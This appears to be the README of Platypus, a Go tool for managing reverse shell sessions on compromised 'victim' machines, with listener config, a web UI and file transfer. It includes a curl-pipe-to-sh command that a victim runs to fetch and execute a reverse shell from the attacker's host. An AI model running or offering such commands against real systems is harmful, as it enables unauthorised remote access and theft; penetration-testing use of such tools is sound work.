# Platypus

[](https://travis-ci.org/WangYihang/Platypus)
[](https://github.com/WangYihang/Platypus/stargazers)
[](https://github.com/WangYihang/Platypus)
[](https://github.com/WangYihang/Platypus/releases)
[](https://opencollective.com/platypus)

A modern multiple reverse shell sessions/clients manager via terminal written in go

## Features

- [x] Multiple service listening port
- [x] Multiple client connections
- [x] [RESTful API](./doc/RESTful.md)
- [x] [Python SDK](https://github.com/WangYihang/Platypus-Python)
- [x] [Reverse shell as a service](/doc/RaaS.md) (Pop a reverse shell in multiple languages without remembering idle commands)
- [x] Download/Upload file with progress bar
- [x] Full interactive shell
  - [x] Using vim gracefully in reverse shell
  - [x] Using CTRL+C and CTRL+Z in reverse shell
- [x] Start servers automatically
- [x] Port forwarding
- [x] Initialize from configuration file
- [x] Web UI


## Get Start

> There are multiple ways to run this tool, feel free to choose one of the following method.

### Install requirements for running (Optional)

```
sudo apt install upx
```

### Run Platypus from source code

```bash
git clone https://github.com/WangYihang/Platypus
cd Platypus
make
```

### Run Platypus from docker-compose

```bash
docker-compose up -d
# Method 1: enter the cli of platypus
docker-compose exec app tmux a -t platypus
# Method 2: enter the web ui of platypus
firefox http://127.0.0.1:7331/
```

### Run Platypus from release binaries

1. Download `Platypus` prebuild binary from [HERE](https://github.com/WangYihang/Platypus/releases)
2. Run the downloaded executable file

## Usage

### Network Topology

* Attack IP: `192.168.88.129`
  * Reverse Shell Service: `0.0.0.0:13337`
  * Reverse Shell Service: `0.0.0.0:13338`
  * RESTful Service: `127.0.0.1:7331`
* Victim IP: `192.168.88.130`

### Give it a try

First, run `./Platypus`, then the `config.yml` will be generated automatically, and the config file is simple enough.

```yaml
servers: 
  - host: "0.0.0.0"
    port: 13337
    # Platypus is able to use several properties as unique identifier (primirary key) of a single client.
    # All available properties are listed below:
    # `%i` IP
    # `%u` Username
    # `%m` MAC address
    # `%o` Operating System
    # `%t` Income TimeStamp
    hashFormat: "%i %u %m %o"
  - host: "0.0.0.0"
    port: 13338
    # Using TimeStamp allows us to track all connections from the same IP / Username / OS and MAC.
    hashFormat: "%i %u %m %o %t"
restful:
  host: "127.0.0.1"
  port: 7331
  enable: true
# Check new releases from GitHub when starting Platypus
update: false
```



As you can see, platypus will check for updates, then start listening on port 13337, 13338 and 7331

The three port have different aims.
- 13337 Reverse shell server, which **disallows** the reverse session comes from the IP.
- 13338 Reverse shell server, which **allows** the reverse session comes from the IP.
- 7331 Platypus [RESTful](./doc/RESTful.md) API EndPoint, which allows you to manipulate Platypus through HTTP protocol or [Python SDK](./doc/SDK.md).

If you want another reverse shell listening port, just type `Run 0.0.0.0 1339` or modify the `config.yml`.

Also, platypus will print help information about [RaaS](./doc/RaaS.md) which release you from remembering  tedious reverse shell commands. 

With platypus, all you have to do is just copy-and-paste the `curl` command and execute it on the victim machine.

```bash
curl http://127.0.0.1:13337/|sh
curl http://192.168.88.129:13337/|sh
```

Now, suppose that the victim is attacked by the attacker and a reverse shell command will be executed on the machine of victim.



> Notice, the RaaS feature ensure that the reverse shell process is running in background and ignore the hangup signal.

## Get start with Web UI

### Manage listening port



### Wait for client connection



### Popup an interactive shell



### Upgrade a reverse shell to an encrypted channel (Termite)



## Get start with cli

### List all victims

You can use `List` command to print table style infomation about all listening servers and connected clients. Notice that the port `13337` will reset the connection from the same machine (we consider two connection are same iff they share the same Hash value, the info being hash can be configured in `config.yml`). Port `13338` will not reset such connections, which provide more repliability.



### Select a victim

`Jump` command can take you a tour between clients.
Use `Jump [HASH / Alias]` to jump. `Alias` is a alias of a specific client, you can set a alias of a client via `Alias [ALIAS]`.
Also, for jumping through `HASH`, you do not need to type the whole hash, just prefix of hash will work.

> All commands are case insensitive, feel free to use tab for completing.




### Interactive shell

`Interact` will popup a shell, just like `netcat`.



### Download file

Use `Download` command to download file from reverse shell client to attacker's machine.



### Upload file

Use `Upload` command to upload file to the current interacting client.



### Interactive shell mode

> This feature only works on *nix clients

> For your user experience, we highly RECOMMEND you use `Upgrade` command to upgrade the plain reverse shell to a encrypted interactive shell.

Try to Spawn `/bin/bash` via Python, then the shell is fully interactive (You can use vim / htop and other stuffs).
First use `Jump` to select a client, then type `PTY`, then type `Interact` to drop into a fully interactive shell.
~~You can just simply type `exit` to exit pty mode~~, to avoid the situation in [issue #39](https://github.com/WangYihang/Platypus/issues/39), you can use `platyquit` to quit the fully interactive shell mode.




## Advanced [Usages](./doc)

* Reverse shell as a Service (RaaS)
* RESTful API
* Python SDK

## Other Materials

* [Presentation on KCon 2019](https://github.com/WangYihang/Presentations/blob/master/2019-08-24%20Introduction%20to%20Platypus%20(KCon)/Introduction%20to%20Platypus%20on%20KCon%202019.pdf)
* [Presentation on GCSIS 2021](https://github.com/WangYihang/Presentations/blob/master/2021-04-24%20Introduction%20to%20Platypus%20(GCSIS)/Introduction%20to%20Platypus%20on%20GCSIS%202021.pptx)
* [Demostration Video](http://www.youtube.com/watch?v=Yfy6w8qXcQs "Platypus")

## TODOs
- [ ] [#10 Use database to record all events and interacting logs](https://github.com/WangYihang/Platypus/issues/10)
- [ ] Router through clients
- [ ] Visualize network topology
- [ ] Host discovery via multiple method (eg: `arp -a`)
- [ ] Redesign frontend (eg: Listener list, Machine list, Network topology graph, File management...)
- [ ] Add authencation in RESTful API
- [ ] Use crontab
- [ ] Provide full kernel API
- [ ] Support file operations
- [ ] Check whether dst is a folder in file uploading 
- [ ] Benchmark
- [ ] [#24 Upgrading platypus to a system service](https://github.com/WangYihang/Platypus/issues/24)
- [ ] Upgrade to Metepreter session
- [ ] Electron frontend
- [ ] [#53 Reload config file](https://github.com/WangYihang/Platypus/issues/53)
- [ ] [#28 Suport enable internet on the internal machine](https://github.com/WangYihang/Platypus/issues/28))
- [ ] Add version checking in Termite
- [x] [#28 Suport dynamic port forwarding](https://github.com/WangYihang/Platypus/issues/28))
- [x] [#28 Suport remote port forwarding](https://github.com/WangYihang/Platypus/issues/28))
- [x] [#28 Suport local port forwarding](https://github.com/WangYihang/Platypus/issues/28))
- [x] Design Private Protocol
- [x] Check exit state in WebSocket
- [x] ~~Use HR package to detect the status of client (maybe `echo $random_string`)~~
- [x] Notify window resize (Only works in all cases when private protocol established)
- [x] Upgrade to private protocol
- [x] [#15 Encryption support](https://github.com/WangYihang/Platypus/issues/15)
- [x] Web UI
- [x] More interfaces in RESTful API
- [x] Websocket for Web UI 
- [x] Continuous Integration
- [x] [#12 Add capability of setting human-readable name of session](https://github.com/WangYihang/Platypus/issues/12)
- [x] [#7 Allow user to choose operation for the same IP income connection](https://github.com/WangYihang/Platypus/issues/7)
- [x] [#25 Replace new connection from same IP with old one](https://github.com/WangYihang/Platypus/issues/25)
- [x] Test driven development [WIP]
- [x] [#19 Read command file when start up](https://github.com/WangYihang/Platypus/issues/19)
- [x] Add config file
- [x] [#30 RaaS support specifying language, thanks for @RicterZ](https://github.com/WangYihang/Platypus/issues/30)  
- [x] Execute user input when input is not a built-in command
- [x] Download/Upload progress bar
- [x] [#6 Send one command to all clients at once (Meta Command)](https://github.com/WangYihang/Platypus/issues/6)
- [x] User guide
- [x] Upload file
- [x] Download file
- [x] [#13 Add a display current prompt setting](https://github.com/WangYihang/Platypus/issues/13)
- [x] [DEPRECATED] Global Config (eg. [#9 BlockSameIP](https://github.com/WangYihang/Platypus/pull/9))
- [x] [#11 Make STDOUT and STDERR distinguishable](https://github.com/WangYihang/Platypus/issues/11)
- [x] [#23 Case insensitive CLI](https://github.com/WangYihang/Platypus/issues/23)
- [x] Delete command by [@EddieIvan01](https://github.com/EddieIvan01)
- [x] OS Detection (Linux|Windows) by [@EddieIvan01](https://github.com/EddieIvan01)
- [x] Upgrade common reverse shell session into full interactive session
- [x] Docker support (Added by [@yeya24](https://github.com/yeya24))

## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Platypus/graphs/contributors"></a>

## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Platypus#backer)]

<a href="https://opencollective.com/Platypus#backers" target="_blank"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Platypus#sponsor)]

<a href="https://opencollective.com/Platypus/sponsor/0/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/1/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/2/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/3/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/4/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/5/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/6/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/7/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/8/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/9/website" target="_blank"></a>

# 404StarLink 2.0 - Galaxy


Platypus has joined 404Team [404StarLink 2.0 - Galaxy](https://github.com/knownsec/404StarLink2.0-Galaxy)